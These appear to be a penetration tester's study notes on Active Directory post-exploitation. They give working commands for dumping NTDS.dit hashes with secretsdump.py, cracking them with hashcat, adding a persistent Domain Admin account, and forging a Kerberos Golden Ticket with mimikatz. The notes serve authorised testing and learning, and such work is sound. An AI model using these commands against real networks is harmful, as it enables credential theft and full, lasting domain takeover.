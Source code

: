 Strategy:
	If you got a quick in, try again using other methods
	dump NTDS.dit and crack passwords
	Enumerate for sensitive info
	create a Domain Admin account to not lose it (REMEMBER TO DELETE IT AFTER PENTEST)
	Creating a Domain Admin account can also test detection
	Create a Golden Ticket


Dumping the NTDS.dit:
	This file stores AD data
	`secretsdump.py <domain>/<domain admin>:'<password>'@<dc ip> -just-dc-ntlm`
	only crack the hash after the colon (:)
	hashcat is `-m 1000`
	repeat hashcat with `--show`

Golden Ticket Attacks:
	This owns us the domain 
	use mimikatz on DC
	`mimikatz.exe`
	`privilege::debug`
	`lsadump::lsa /inject /name:krbtgt`
	Save domain SID
	NTLM Hash "primary"
	`kerberos::golden /User:Administrator /domain:<domain name> /sid:<sid saved above> /krbtgt:<hash> /id:500 /ptt`
	Open new cmd using:
	`misc::cmd`